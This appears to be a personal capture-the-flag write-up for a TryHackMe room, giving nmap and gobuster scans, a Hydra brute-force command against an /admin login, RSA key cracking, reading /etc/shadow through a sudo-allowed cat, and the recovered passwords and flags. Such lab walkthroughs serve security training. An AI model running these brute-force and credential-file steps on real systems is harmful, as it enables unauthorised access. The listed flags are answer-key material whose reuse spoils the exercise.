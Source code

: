 Brute_it.doc
-----------------

name : Eviyatar Cohen

Date : 17.10.2022

IP=10.10.12.192
-----------------------------------------

Nmap Results:
===============
nmap -sC -sV 10.10.12.192
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-17 07:50 EDT
Nmap scan report for 10.10.12.192
Host is up (0.087s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.96 seconds

----------------------------------------------------------------

GoBuster Results:
===================
gobuster dir -u http://10.10.12.192 -w /usr/share/wordlists/dirbuster/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.12.192
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/17 07:53:34 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.12.192/admin/]

----------------------------------------------------------------

Potential Usernames:
=======================
admin:xavier

Using Hydra To Brute Force Login Page at /admin Directory..
--------------------------------------------------------------
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.12.192 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"

Password = xavier
================================================================

inside was RSA key that i crack and found this password:rockinroll
-----------------------------------------------

Login ssh to find User.txt:
============================
THM{a_password_is_not_a_barrier}

insdie sudo -l i found cat and use it to open /etc/shadow to get root password
===============
root:football
===============

Root Flag:
============
THM{pr1v1l3g3_3sc4l4t10n}